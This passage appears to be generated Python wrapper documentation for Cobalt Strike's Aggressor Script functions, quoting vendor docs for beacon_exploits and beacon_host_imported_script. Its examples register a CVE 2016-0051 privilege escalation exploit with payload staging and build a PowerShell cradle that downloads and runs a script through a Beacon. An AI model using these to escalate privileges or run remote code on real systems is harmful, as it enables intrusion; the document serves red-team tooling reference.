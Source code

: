         # stage our payload (if this is a bind payload)
        bstage($1, $null, $2, $arch);
    }

    beacon_exploit_register("ms16-016", "mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)", &ms16_016_exploit);

    See Also
    &beacon_exploit_describe, &beacon_exploits, &belevate


## beacon_exploits
```python
beacon_exploits(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Get a list of privilege escalation exploits registered with Cobalt Strike.
    Returns
    An array of Beacon exploits.
    Example
    printAll(beacon_exploits());

    See also
    &beacon_exploit_describe, &beacon_exploit_register, &belevate


## beacon_host_imported_script
```python
beacon_host_imported_script(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Locally host a previously imported PowerShell script within Beacon and return a short script that will download and invoke this script.
    Arguments
    $1 - the id of the Beacon to host this script with.
    Returns
    A short PowerShell script to download and evaluate the previously script when run. How this one-liner is used is up to you!
    Example
    alias powershell {
        local('$args $cradle $runme $cmd');

        # $0 is the entire command with no parsing.
        $args   = substr($0, 11);

        # generate the download cradle (if one exists) for an imported PowerShell script
        $cradle = beacon_host_imported_script($1);
